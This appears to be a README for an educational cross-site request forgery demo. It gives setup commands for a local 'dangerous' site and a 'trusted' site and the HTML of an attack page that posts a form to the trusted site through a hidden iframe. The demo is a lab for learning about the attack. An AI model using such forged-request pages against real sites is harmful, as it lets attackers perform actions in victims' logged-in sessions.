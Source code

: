 ## csrf demo
- realize the CSRF attack.

### start server
```shell
# start dangerous site
cd csrf-demo/dangerous_site
npm install
node ./bin/www

# start trusted site in virtual machine
cd ../trusted_site
npm install
node ./bin/www

```

### test

- access trusted site: http://vm:4000/  , then the cookie of this site is stored in browser.
- access dangerous site : http://localhost:3000/csrf.html

csrf.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>Document</title>
	<style>
		iframe{
			height:0;
			visibility: hidden;
		}
	</style>
</head>
<body>
	<p>form表单 发送请求没有跨域限制， 可以向任意站点发送post请求</p>
	<form method="post" action="http://localhost:4000/users/csrf" enctype="application/x-www-form-urlencoded" target="iframeName">
		<label for="cntname">name: </label>
		<input type="text" name="name" id="cntname" />
		
		<input type="submit" value="upload" id="_submit" />
	</form>

	<iframe id="iframeId" name="iframeName"></iframe>

	<script>
		
	</script>

</body>
</html>

```

input something and submit, then go to the console of trusted site, you can find the form request and the cookie of trusted site.

- this result indicates that we can send cross origin request by using form. 

- add iframe element to not redirect.